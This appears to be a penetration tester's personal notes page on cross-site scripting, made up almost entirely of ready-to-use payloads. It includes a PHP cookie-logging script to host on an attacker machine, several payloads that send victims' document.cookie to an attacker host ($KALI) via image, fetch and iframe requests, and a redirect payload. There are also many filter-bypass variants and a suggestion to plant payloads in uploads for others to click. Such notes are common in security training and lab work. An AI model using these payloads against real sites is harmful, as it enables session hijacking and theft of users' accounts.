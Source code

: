 #### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```

#### Test for XSS

Check if HttpOnly is disabled.

[[rlwrap]]

![[Pasted image 20220926131911.png]]

```
<img+src%3dhttp%3a//$KALI/x+/>>
```

![[Pasted image 20220926131833.png]]

#### steal.php

Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```

```bash - kali
sudo chmod 777 /var/www/html/steal.php
```

```bash - kali
service apache2 start
```

[[Python#Server]]

```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```

now just view the log:
```firefox
127.0.0.1/log.txt
```

Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!

#### Base64 encode

The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.

[[rlwrap]]

```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```

Now decode the base64 value.  Remember `%3D` is `=`.

#### New Awesome payload
Replaces `<script>alert(1)</script>`

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

#### Basic payloads
```html
<script>alert('XSS')</script>
```

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```html
"><script>alert('XSS')</script>
```

```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```

```html
<script>\u0061lert('22')</script>
```

```html
<script>eval('\x61lert(\'33\')')</script>
```

```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```

```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```

#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```

```html
<img src=x onerror=alert('XSS')//
```

```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```html
"><img src=x onerror=alert('XSS');>
```

```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

Svg payloads
```html
<svgonload=alert(1)>
```

```html
<svg/onload=alert('XSS')>
```

```html
<svg onload=alert(1)//
```

```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
<svg id=alert(1) onload=eval(id)>
```

```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
"><svg/onload=alert(/XSS/)
```

```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```

```html
<svg><script>alert('33')
```

```html
<svg><script>alert&lpar;'33'&rpar;
```

// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```

```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```

```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```

```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```

```html
<div onpointermove="alert(45)">MOVE HERE</div>
```

```html
<div onpointerout="alert(45)">MOVE HERE</div>
```

```html
<div onpointerup="alert(45)">MOVE HERE</div>
```


#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]

From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.

?default=
```html
'></option></select><h1>TEST</h1>
```

Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```

Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```

If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```

If there is an input box that reflects to page:
`<h1>Test</h1>`
![[Pasted image 20220902130252.png]]
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)

XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
![[Pasted image 20220905132535.png]]

`encodeURIComponent("<h1>Test</h1>");`
![[Pasted image 20220905132518.png]]

Testing input boxes:
![[Pasted image 20220902130624.png]]
![[Pasted image 20220902130644.png]]

Once found, set up listener and input script tag to steal cookies:
[[rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```

Just modify cookie value in browser for win.

#### iframe test

[[rlwrap]]

```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```

When a user connects to the page, we will receive there browser details:

![[Pasted image 20220505155251.png]]

#### Stealing Cookies and Session Information
[[rlwrap]]

```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```

